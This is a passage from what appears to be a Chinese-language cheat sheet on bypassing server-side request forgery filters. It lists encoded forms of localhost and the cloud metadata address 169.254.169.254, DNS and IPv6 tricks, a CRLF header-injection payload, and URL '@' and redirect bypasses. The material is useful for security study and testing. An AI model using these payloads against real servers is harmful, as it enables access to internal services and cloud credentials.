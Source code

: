 127.0.0.1八进制：0177.0.0.1。十六进制：0x7f.0.0.1。十进制：2130706433.

4.利用特殊域名

原理是DNS解析。xip.io可以指向任意域名，即
127.0.0.1.xip.io，可解析为127.0.0.1
(xip.io 现在好像用不了了，可以找找其他的)

5.利用[::]

可以利用[::]来绕过localhost
http://169.254.169.254>>http://[::169.254.169.254]

6.利用句号

127。0。0。1 >>> 127.0.0.1

7、CRLF 编码绕过

%0d->0x0d->\r回车
%0a->0x0a->\n换行
进行HTTP头部注入

example.com/?url=http://eval.com%0d%0aHOST:fuzz.com%0d%0a 
1
8.利用封闭的字母数字

利用Enclosed alphanumerics
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ >>> example.com
http://169.254.169.254>>>http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿

二、常见限制

1.限制为http://www.xxx.com 域名

采用http基本身份认证的方式绕过，即@
http://www.xxx.com@www.xxc.com

2.限制请求IP不为内网地址

当不允许ip为内网地址时：
（1）采取短网址绕过
（2）采取特殊域名
（3）采取进制转换

3.限制请求只为http协议

（1）采取302跳转
（2）采取短地址

